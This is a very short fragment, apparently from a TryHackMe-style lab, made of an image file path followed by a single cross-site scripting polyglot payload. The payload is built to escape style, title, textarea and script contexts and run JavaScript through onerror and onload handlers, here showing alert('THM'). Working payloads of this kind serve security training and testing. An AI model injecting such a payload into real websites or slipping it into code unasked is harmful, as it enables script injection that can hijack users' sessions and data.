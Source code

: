 *   ```jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e```